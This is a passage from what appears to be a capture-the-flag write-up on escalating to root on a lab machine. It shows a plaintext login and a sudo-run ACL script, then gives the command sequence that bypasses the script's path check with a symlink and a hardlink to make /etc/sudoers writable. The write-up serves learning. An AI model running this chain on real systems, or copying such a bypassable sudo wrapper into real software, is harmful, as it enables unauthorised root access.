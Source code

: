 user: mtz
password: 03F6lY3uXAP2bkW8  

### /OPT 

Upon looking here we can find the following file called acl.sh:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

There are some things we have to consider with this:
- The /home/mtz restriction can be bypassed though a softlink (we can go anywhere)
- the double quotes eliminate the possibility of giving random commands here and force us to only give files to setfacl. 
- Some folders are non writable, and we will not be able to write to them no matter the permissions of the file. To read we do not have many problems.

So probably our options are:
- Read critical information which we can use to elevate our privileges 
- Find which folders are writable which contain any binary we can use to elevate our privileges 
- Find other misconfigurations we can use


Finally, if found a way to bypass the directory check by using hardlinks.
# LINKS

By simply typing the following commands i was able to edit the sudoers file and grant myself permissions to become root.

```bash
mtz@permx:/tmp$ ln -s / /home/mtz/all
mtz@permx:/tmp$ sudo /opt/acl.sh mtz rwx /home/mtz/all/etc/sudoers
mtz@permx:/tmp$ ln /etc/sudoers ./sudoers
mtz@permx:/tmp$ nano sudoers 
mtz@permx:/tmp$ sudo su
```

- The first command gets rid of the "only /home/mtz" restriction by creating a softlink to the "root" directory.
- The second one enables us to do anyting on /etc/sudoers
- The third one creates a hardlink of sudoers (to bypass the non modifiable problem) 
- The last elevates us to [[root]]
